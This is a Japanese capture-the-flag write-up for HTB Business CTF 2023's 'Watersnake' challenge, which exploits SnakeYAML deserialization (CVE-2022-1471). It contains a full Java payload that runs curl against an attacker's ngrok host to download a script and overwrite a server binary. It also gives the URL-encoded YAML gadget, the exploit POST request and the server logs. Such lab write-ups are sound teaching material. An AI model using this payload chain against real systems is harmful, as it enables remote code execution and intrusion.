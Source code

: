 ```yaml
---
layout: post
title: "[Web] Watersnake (300 pts, 276 solved)"
published : true
permalink: /ctf/writeups/HTB_Business_CTF_2023/Web_Watersnake
tags: [CTF, WriteUps, HTB Business CTF]
---
```

## Description
As the United Nations of Zenium and the Board of Arodor engage in a fierce competition to establish a colony on Mars using Vitalium. State hackers from UNZ identify an exposed instance of the critical facility water management software, Watersnakev3, in one of Arodor's main water treatment plants. The objective is to gain control over the water supply, and weaken the Arodor's infrastructure.

## Solution
問題のサーバで動作している"snake YAML"には脆弱性(CVE-2022-1471)があるため、それを悪用する。

参考URL: https://swapneildash.medium.com/snakeyaml-deserilization-exploited-b4a2c5ac0858

まずは、以下のURLからエクスプロイトを入手する。

URL:　https://github.com/1fabunicorn/SnakeYAML-CVE-2022-1471-POC/blob/main/src/main/java/org/example/exploit.java

"AwesomeScriptEngineFactory.java" を以下のコードに修正する。このコードにより、サーバの機能の一部であるセンサーの実行ファイル(/app/watersensor)を、攻撃者のホストするシェルスクリプトで置き換えることができる。

なお、攻撃者のサーバはngrokを使用してホストした。

```java
package artsploit;

import javax.script.ScriptEngine;
import javax.script.ScriptEngineFactory;
import java.io.IOException;
import java.util.List;

public class AwesomeScriptEngineFactory implements ScriptEngineFactory {

    public AwesomeScriptEngineFactory() {
        try {
            //Runtime.getRuntime().exec("dig scriptengine.x.artsploit.com");
            Runtime.getRuntime().exec("curl https://8128-2404-7a80-93e0-6800-5054-ff-fe4e-76fc.ngrok-free.app/exploit.sh -o /app/watersensor");
            Runtime.getRuntime().exec("chmod 777 /app/watersensor");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }

    @Override
    public String getEngineName() {
        return null;
    }

    @Override
    public String getEngineVersion() {
        return null;
    }

    @Override
    public List<String> getExtensions() {
        return null;
    }

    @Override
    public List<String> getMimeTypes() {
        return null;
    }

    @Override
    public List<String> getNames() {
        return null;
    }

    @Override
    public String getLanguageName() {
        return null;
    }

    @Override
    public String getLanguageVersion() {
        return null;
    }

    @Override
    public Object getParameter(String key) {
        return null;
    }

    @Override
    public String getMethodCallSyntax(String obj, String m, String... args) {
        return null;
    }

    @Override
    public String getOutputStatement(String toDisplay) {
        return null;
    }

    @Override
    public String getProgram(String... statements) {
        return null;
    }

    @Override
    public ScriptEngine getScriptEngine() {
        return null;
    }
}
```

コンパイルしてclassファイルを生成する。

```sh
┌──(kali㉿kali)-[/ctf/…/web/Watersnake/yaml-payload/src]
└─$ javac artsploit/AwesomeScriptEngineFactory.java; ll artsploit/AwesomeScriptEngineFactory.*
-rwxr-xr-x 1 kali kali 1733 Jul 16 00:43 artsploit/AwesomeScriptEngineFactory.class
-rwxr-xr-x 1 kali kali 1707 Jul 16 00:43 artsploit/AwesomeScriptEngineFactory.java
```

次にホストするシェルスクリプトを用意する。中身は単純に"/flag.txt"をcatで読み込むだけのもの。


- exploit.sh

```sh
#!/bin/sh
cat /flag.txt
```

配置する場所は、コンパイルしたclassファイルがある場所と同じところにする。

```sh
┌──(kali㉿kali)-[/ctf/…/web/Watersnake/yaml-payload/src]
└─$ cat exploit.sh
#!/bin/sh
cat /flag.txt 
```

classファイルとシェルスクリプトがあるフォルダをルートとしてWebサーバをホストする。

```
┌──(kali㉿kali)-[/ctf/…/web/Watersnake/yaml-payload/src]
└─$ python3 -m http.server 80
```

別のシェルでngrokを起動する。

```sh

┌──(kali㉿kali)-[/ctf/…/htb/HTB Business CTF 2023/web/Watersnake]
└─$ ngrok http 80
ngrok                                                                                                                                                    (Ctrl+C to quit)

🤯 Try the ngrok Kubernetes Ingress Controller: https://ngrok.com/s/k8s-ingress

Session Status                online
Account                       0x005ada15 (Plan: Free)
Version                       3.0.6
Region                        Japan (jp)
Latency                       5ms
Web Interface                 http://127.0.0.1:4040
Forwarding                    https://8128-2404-7a80-93e0-6800-5054-ff-fe4e-76fc.ngrok-free.app -> http://localhost:80

Connections                   ttl     opn     rt1     rt5     p50     p90
                              29      0       0.00    0.01    0.01    0.02
```

生成されたngrokのURLを使い、ペイロードを作成する。

元のペイロード: 
```
some_var: !!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["https://8128-2404-7a80-93e0-6800-5054-ff-fe4e-76fc.ngrok-free.app/"]]]]
```

URLエンコードしたペイロード:
```
some%5Fvar%3A%20%21%21javax%2Escript%2EScriptEngineManager%20%5B%21%21java%2Enet%2EURLClassLoader%20%5B%5B%21%21java%2Enet%2EURL%20%5B%22https%3A%2F%2F8128%2D2404%2D7a80%2D93e0%2D6800%2D5054%2Dff%2Dfe4e%2D76fc%2Engrok%2Dfree%2Eapp%2F%22%5D%5D%5D%5D
```

URLエンコードしたペイロードを/updateにPOSTする

```
POST /update HTTP/1.1
Host: 83.136.255.177:59601
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 255

config=some%5Fvar%3A%20%21%21javax%2Escript%2EScriptEngineManager%20%5B%21%21java%2Enet%2EURLClassLoader%20%5B%5B%21%21java%2Enet%2EURL%20%5B%22https%3A%2F%2F8128%2D2404%2D7a80%2D93e0%2D6800%2D5054%2Dff%2Dfe4e%2D76fc%2Engrok%2Dfree%2Eapp%2F%22%5D%5D%5D%5D
```

ngrokを経由して、ホストしたWebサーバにアクセスがくる。
そして、exploit.shが実行される。

```sh
┌──(kali㉿kali)-[/ctf/…/web/Watersnake/yaml-payload/src]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
127.0.0.1 - - [16/Jul/2023 00:43:58] "HEAD /META-INF/services/javax.script.ScriptEngineFactory HTTP/1.1" 200 -
127.0.0.1 - - [16/Jul/2023 00:43:58] "GET /META-INF/services/javax.script.ScriptEngineFactory HTTP/1.1" 200 -
127.0.0.1 - - [16/Jul/2023 00:43:59] "GET /artsploit/AwesomeScriptEngineFactory.class HTTP/1.1" 200 -
127.0.0.1 - - [16/Jul/2023 00:43:59] "GET /exploit.sh HTTP/1.1" 200 -
```

/stats にアクセスすると、書き換えられた"/app/watersensor"が実行され、フラグが表示される。

Flag: `HTB{r1d3_th3_sn4k3}`